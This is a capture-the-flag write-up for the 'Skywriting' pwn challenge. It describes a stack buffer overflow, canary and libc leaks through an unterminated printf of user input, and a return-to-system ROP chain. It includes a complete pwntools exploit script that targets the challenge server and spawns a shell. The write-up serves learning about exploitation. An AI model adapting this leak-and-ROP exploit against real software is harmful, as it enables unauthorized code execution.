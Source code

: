 # Skywriting

There's a lot of unnecessary bloat that I'll mostly ignore.

Cracking open the binary in ghidra, we see that the first input we get is actually a scanf, scanning a decimal integer into a variable. It then checks this integer against 1. If the integer isn't 1, it pops a shell - zsh. Nothing happens remotely, likely they do not have zsh. So that's not very useful.

What happens if the integer is 1? It continues with the rest of the execution of the program. The program opens up a never-ending prompt in which it asks for an input. If the input is the same as notflag{a\_cloud\_is\_just\_someone\_elses\_computer}\n when strcmp-ed,the program tells us we did it and rets. This will be useful later on to deliver our final exploit.

In the prompt, 0x200 bytes are read into rbp-0x90, creating a clear buffer overflow vulnerability.

Sadly, however, every protection is on. Canary, RELRO, PIE and most likely ASLR. We're going to need to leak somehow.. but how?

The read function does not null terminate. That means our input will not be null terminated as a string unless we enter a null byte. Not only this, but the program calls printf\("%s??", input\), printing the input back to us. Printf will only know the end of a string once it hits a null byte, meaning we can leak values off of the stack!

For example, say this was the stack

00 00 00 00 00 00 00 00 00 \

we could write like so

41 41 41 41 41 41 41 41 0a \

now, when it prints, it'll keep printing, leaking the canary and ~~saved RBP~~ .fini address.

NOTE: Canaries start with null bytes! We will have to overflow one byte of the canary so that we can read the rest. It doesn't matter that we overflow the canary until we make the program ret, but by then we will know what the full canary is and be able to replace it.

We can use this again to leak the saved ret address, which will be `__libc_start_main_ret.`

Once all these values are leaked, we send the finished exploit. notflag{a\_cloud\_is\_just\_someone\_elses\_computer}\n\x00 + padding + canary + more padding + poprdi + /bin/sh address + retgadget + systemaddress

NOTE: We can leak the binary base through the .fini address. We don't strictly _need_ it here, as libc has ROP gadgets, but it's useful.

```python
from pwn import *
mode = sys.argv[1]
NUM_TO_CANARY = 0x90 - 0x8
NUM_TO_RET = NUM_TO_CANARY+16
retgadget  = 0x000000000000078e # ret
poprdi = 0x0000000000000bd3 # pop rdi ; ret
e = ELF("./sky")
def getproc():
    if mode == 'local':
        return e.process()
    else:
        return remote('2020.redpwnc.tf', 31034)
def setup():
    p = getproc()
    p.recvline()
    p.sendline("1")
    p.recvuntil("shot: ")
    return p 
def getoutput(data):
    global p
    p.sendline(data)
    p.recvuntil(data + b'\n')
    output = p.recvuntil("??")[:-2]
    p.recvuntil("shot: ")
    return output
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = setup()
#Leak canary and binary base
libret = 0x21b97 if mode == 'remote' else 0x26e0b
leak = getoutput(b"A" * (NUM_TO_CANARY))
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")
pause()
fini = u64(leak[7:] + b'\x00\x00')
e.address = fini - 0xb70
log.info(f"Binary base: {hex(e.address)}")
#Leak libc base by leaking the libc start main ret
leak2 = getoutput(b"A" * (NUM_TO_RET-1))
libret_leak = u64(leak2 + b'\x00\x00')
log.info(f"Libc start main ret: {hex(libret_leak)}")
libcbase = libret_leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
retgadget += e.address
poprdi += e.address
# Everything has been leaked. Develop the final payload.
final =  flat(canary,b'C'*8,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
padding = b"notflag{a_cloud_is_just_someone_elses_computer}\n\x00"
padding += b'B' * (NUM_TO_CANARY - len(padding))
p.sendline(padding + final)
p.interactive()
```


